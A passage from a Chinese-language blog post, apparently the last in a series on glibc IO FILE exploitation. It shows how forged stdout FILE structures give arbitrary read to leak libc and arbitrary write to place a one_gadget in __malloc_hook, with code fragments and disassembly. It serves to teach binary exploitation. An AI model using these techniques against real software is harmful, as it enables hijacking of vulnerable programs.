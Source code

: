 然后存在明显的溢出，可以覆盖`stdout`，但是无法覆盖`stdout`的vtable，因为它会修正。

具体该如何利用呢，首先使用`stdout`任意读来泄露libc地址。构造的FILE结构体如下（使用[pwn_debug](https://github.com/ray-cp/pwn_debug)的`IO_FILE_plus`模块）：
```c
io_stdout_struct=IO_FILE_plus()
flag=0
flag&=~8
flag|=0x800
flag|=0x8000
io_stdout_struct._flags=flag
io_stdout_struct._IO_write_base=pro_base+elf.got['read']
io_stdout_struct._IO_read_end=io_stdout_struct._IO_write_base
io_stdout_struct._IO_write_ptr=pro_base+elf.got['read']+8
io_stdout_struct._fileno=1
​```
以此来泄露read的地址。

接着使用`stdout`的任意地址写来写`__malloc_hook`，构造的FILE结构体如下：
​```c
io_stdout_struct=IO_FILE_plus()
flag=0
flag&=~8
flag|=0x8000
io_stdout_write=IO_FILE_plus()
io_stdout_write._flags=flag
io_stdout_write._IO_write_ptr=malloc_hook
io_stdout_write._IO_write_end=malloc_hook+8
```
最终将one gaget 写入`malloc_hook`。如何触发malloc呢，可以使用输出较大的字符打印来触发malloc函数或是`%n`来触发，其中`%n`可触发malloc的原因是在于`__readonly_area`会通过`fopen`打开`maps`文件来读取内容来判断地址段是否可写，而`fopen`会调用`malloc`函数申请空间，因此触发。

可能会有人对于觉得`flag|=0x8000`这行构造代码觉得比较奇怪，需要解释下，在`printf`函数中会调用`_IO_acquire_lock_clear_flags2 (stdout)`来获取`lock`从而继续程序，如果没有`_IO_USER_LOCK`标志的话，程序会一直在循环，而`_IO_USER_LOCK`定义为`#define _IO_USER_LOCK 0x8000`，因此需要设置`flag|=0x8000`才能够使exp顺利进行。`_IO_acquire_lock_clear_flags2 (stdout)`的汇编代码如下：
```c
0x7f0bcf15d850 <__printf_chk+96>     mov    rbp, qword ptr [rip + 0x2a16f9]
0x7f0bcf15d857 <__printf_chk+103>    mov    rbx, qword ptr [rbp]
0x7f0bcf15d85b <__printf_chk+107>    mov    eax, dword ptr [rbx]
0x7f0bcf15d85d <__printf_chk+109>    and    eax, 0x8000
0x7f0bcf15d862 <__printf_chk+114>    jne    __printf_chk+202 <0x7f0bcf15d8ba>
```

## 小结

使用IO FILE来进行任意内存读写真的是个很强大的功能，构造起来也比较容易。但是对于FILE结构体的伪造，个人感觉可能最容易出问题的地方还是`_flags`字段的构造，可能某个地方不注意就导致程序走偏了，因此感觉可能还是把默认的`stdout`和`stdin`直接拷贝出来用会比较好一些，同时`pwn_debug`的`IO_FILE_plus`模块提供了api`arbitrary_write_check`以及`arbitrary_read_check`来进行相应检测，看相应字段是否设置正确。

至此IO FILE系列描述完毕，前四篇对IO函数fopen、fread、fwrite以及fclose的源码分析；后面三篇介绍了针对IO FILE的相关利用，包括劫持vtable、vtable引入的check机制以及相应的后续利用方式。在整个过程中为方便构造IO 结构体还在`pwn_debug`中加入了`IO_FILE_plus`模块。

最后一句，阅读源码对于学习是一件很有帮助的事情。
